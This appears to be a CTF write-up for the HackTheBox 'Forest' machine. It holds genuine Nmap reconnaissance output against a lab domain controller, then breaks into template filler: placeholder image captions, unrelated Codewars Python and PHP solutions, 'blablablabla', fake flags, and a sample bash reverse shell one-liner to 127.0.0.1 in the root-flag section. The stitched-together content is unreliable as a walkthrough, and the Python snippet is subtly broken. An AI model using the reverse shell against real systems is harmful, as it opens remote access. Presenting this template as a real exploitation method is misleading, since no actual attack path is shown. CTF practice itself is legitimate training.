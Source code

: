 # Forest

## Reconnaissance
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sS -Pn -p- --min-rate 5000 -o nmap_alltcp.txt 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:24 EDT
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.33s latency).
Not shown: 65212 closed tcp ports (reset), 299 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49929/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 581.13 seconds

┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sC -sV -Pn -O -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49929 -o nmap_basic.txt 10.10.10.161
[sudo] password for kimkhuongduy: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:45 EDT
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-24 16:52:47Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49929/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (95%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows Server 2016 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 (92%), Microsoft Windows 10 1507 (92%), Microsoft Windows 10 1511 (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows Server 2012 R2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-04-24T09:53:50-07:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m33s, median: 6m47s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T16:53:49
|_  start_date: 2022-04-24T16:25:29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.26 seconds

```
In the nmap output we have a lot information. For the moment keep in mind that machine is leaked the dns name: **htb.local**. So I put in */etc/hosts* the name of forest.htb.local.

Let’s make some mental notes about the scan results:
* Port 53, 88 is open now, looks like this is a Domain Controller.
* The nmap scan leaks the domain and hostname: **htb.local** and **FOREST.htb.local**. Similarly, the SMB OS nmap scan leaks the operating system: Windows Server 2016 Standard 14393.
* Port 389 is running LDAP. We’ll need to query it for any useful information. Same goes for SMB.
* Port 5985 opens, which means if I can find credentials for a user through SMB or LDAP, I might be able to get a an get a shell over WinRM.

##Enumeration

###LDAP



Look  here's an image of my website, this is how you format an image.

![My Website](./image/1.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)

